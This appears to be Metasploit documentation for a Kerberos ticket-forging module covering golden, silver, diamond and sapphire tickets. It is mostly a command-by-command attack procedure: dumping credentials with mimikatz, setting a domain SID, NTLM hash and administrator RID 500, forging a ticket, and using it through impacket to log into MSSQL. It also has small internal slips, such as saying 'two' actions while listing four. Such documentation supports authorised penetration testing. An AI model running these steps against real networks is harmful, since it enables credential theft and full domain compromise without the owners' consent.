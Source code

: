 ## Kerberos Ticket Forging (Golden/Silver tickets)

The `auxiliary/admin/kerberos/forge_ticket` module allows the forging of a golden, silver, diamond or sapphire ticket.

## Vulnerable Application

Any system leveraging kerberos as a means of authentication e.g. Active Directory, MSSQL

## Actions

There are two kind of actions the module can run:

1. **FORGE_SILVER** - Forge a Silver ticket - forging a service ticket. [Default]
2. **FORGE_GOLDEN** - Forge a Golden ticket - forging a ticket granting ticket.
3. **FORGE_DIAMOND** - Forge a Diamond ticket - forging a ticket granting ticket by copying the PAC of another user.
4. **FORGE_SAPPHIRE** - Forge a Golden ticket - forging a ticket granting ticket by copying the PAC of a particular user, using the S4U2Self+U2U trick.

## Pre-Verification steps

1. Obtain your targets DOMAIN via your favorite method: e.g.
    `nmap <TARGET_IP>`
2. Next retrieve the DOMAIN_SID: e.g.
    `mimikatz # sekurlsa::logonpasswords`
    or
    `use auxiliary/gather/windows_secrets_dump`
3. Finally get the NTHASH or AES key (prefer AES key if available) of the service account you wish to target: e.g.
    `mimikatz # sekurlsa::logonpasswords` - this output contains both NTHASH and AES keys

## Module usage

1. Start msfconsole
2. Do: `use auxiliary/admin/kerberos/forge_ticket`
3. Do: `set DOMAIN DW.LOCAL`
4. Do: `set DOMAIN_SID S-1-5-21-1755879683-3641577184-3486455962`
5. Do: `set NTHASH 88E4D9FABAECF3DEC18DD80905521B29`
6. Do: `set USER fake_user`
7. Do: `set USER_RID 500`
8. Do: `set SPN MSSqlSvc/dc1.dw.local:1433` (Option only used for silver tickets)
9. Do: `forge_silver` to generate a silver ticket or `forge_golden` for a golden ticket
10. Use your ticket which will have been stored as loot with your chosen target
11. Example usage in impacket:
    ```
    export KRB5CCNAME=/path/to/ticket
    python3 mssqlclient.py DW.LOCAL/fake_mysql@dc1.dw.local -k -no-pass
    ```
